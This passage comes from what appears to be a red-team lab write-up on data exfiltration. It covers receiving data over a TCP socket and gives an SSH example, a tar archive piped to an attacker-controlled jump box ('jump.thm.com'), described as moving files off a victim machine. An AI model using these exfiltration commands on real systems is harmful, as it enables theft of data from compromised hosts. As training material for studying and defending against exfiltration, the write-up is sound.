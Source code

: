 Next, we need to use the `tar` command to unarchive the `task4-creds.tar` file and check the content as follows,

`tar xvf task4-creds.tar`

Now let's confirm that we have the same data from the victim machine.

Success! We exfiltrated data from a victim machine to an attacker machine using the TCP socket in this task.

-------------------------------------------------------

## Exfiltration using SSH

In this task we will show how to use SSH protocol to exfiltrate data over to an attacking machine. SSH protocol establishes a secure channel to interact and move data between the client and server, so all transmission data is encrypted over the network or the Internet.

![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/10.png)

To transfer data over the SSH, we can use either the Secure Copy Protocol `SCP` or the SSH client. Let's assume that we don't have the `SCP` command available to transfer data over SSH. Thus, we will focus more on the SSH client in this task.

As we mentioned earlier, an attacker needs to control a server, which in this case has an SSH server enabled, to receive the exfiltrated data. Thus, we will be using the Attack_Machine/JumpBox as our SSH server in this scenario.

Let's assume that we have gained access to sensitive data that must be transmitted securely.  Let's connect to the `victim1` or `victim2` machine.

![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/11.PNG)

Let's use the same technique we discussed in the "exfiltration using a TCP socket" task, where we will be using the tar command to archive the data and then transfer it.

`tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"`

`"cd /tmp/; tar xpf` : we change the directory and unarchive the passed file.

If we check the attacker machine, we can see that we have successfully transmitted the file.
